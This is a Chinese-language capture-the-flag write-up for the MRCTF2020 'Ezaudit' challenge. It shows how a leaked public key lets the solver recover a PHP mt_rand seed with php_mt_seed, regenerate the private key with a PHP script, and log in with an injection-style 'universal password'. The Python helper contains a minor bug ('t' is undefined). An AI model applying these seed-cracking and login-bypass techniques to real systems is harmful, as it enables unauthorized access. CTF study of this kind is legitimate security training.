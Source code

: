 # \[MRCTF2020]Ezaudit

## \[MRCTF2020]Ezaudit

## 考点

* 使用`php_mt_seed`破解`mt_rand`伪随机
* 万能密码

## wphp

目录扫描存在www.zip，解压出index.php，给了公钥，要知道私钥才能登录

```php
// genarate public_key 
function public_key($length = 16) {
    $strings1 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $public_key = '';
    for ( $i = 0; $i < $length; $i++ )
    $public_key .= substr($strings1, mt_rand(0, strlen($strings1) - 1), 1);
    return $public_key;
  }

//genarate private_key
  function private_key($length = 12) {
    $strings2 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $private_key = '';
    for ( $i = 0; $i < $length; $i++ )
    $private_key .= substr($strings2, mt_rand(0, strlen($strings2) - 1), 1);
    return $private_key;
  }
  $Public_key = public_key();
  //$Public_key = KVQP0LdJKRaV3n9D
```

使用了mt\_rand获取随机字符，而它是伪随机的，可以用php\_mt\_seed破解。

先把公钥转换

```python
str1 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
str2 = 'KVQP0LdJKRaV3n9D'
str3 = str1[::t-1]
res = ''
for i in range(len(str2)):
    for j in range(len(str1)):
        if str2[i] == str1[j]:
            res += str(j) + ' ' + str(j) + ' ' + '0' + ' ' + str(len(str1) - 1) + ' '
            break
print(res)

# 36 36 0 61 47 47 0 61 42 42 0 61 41 41 0 61 52 52 0 61 37 37 0 61 3 3 0 61 35 35 0 61 36 36 0 61 43 43 0 61 0 0 0 61 47 47 0 61 55 55 0 61 13 13 0 61 61 61 0 61 29 29 0 61
```

用php\_mt\_seed计算随机数种子，得到结果`1775196155`

![](<../../.gitbook/assets/image (22) (1) (1) (1).png>)

在返回头可以看到PHP版本为5.6.40，在该版本下用得到的随机数种子运行private\_key()即可

```php
<?php
mt_srand(1775196155);
// genarate public_key 
function public_key($length = 16) {
    $strings1 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $public_key = '';
    for ( $i = 0; $i < $length; $i++ )
    $public_key .= substr($strings1, mt_rand(0, strlen($strings1) - 1), 1);
    return $public_key;
  }

  //genarate private_key
  function private_key($length = 12) {
    $strings2 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $private_key = '';
    for ( $i = 0; $i < $length; $i++ )
    $private_key .= substr($strings2, mt_rand(0, strlen($strings2) - 1), 1);
    return $private_key;
  }
echo public_key()."<br>";
echo private_key();
// KVQP0LdJKRaV3n9D
// XuNhoueCDCGc
?>
```

再用万能密码登录即可

![](<../../.gitbook/assets/image (24) (1) (1) (1) (1).png>)
